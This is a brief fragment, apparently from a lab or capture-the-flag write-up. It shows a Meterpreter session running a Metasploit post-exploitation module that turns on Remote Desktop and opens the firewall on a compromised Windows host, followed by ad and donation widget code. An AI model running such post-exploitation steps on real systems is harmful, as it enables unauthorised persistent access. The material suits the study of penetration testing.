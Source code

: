 ```zsh
meterpreter > run post/windows/manage/enable_rdp

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20210630145839_default_10.10.220.240_host.windows.cle_567279.txt

```

---

ads
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>



<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>


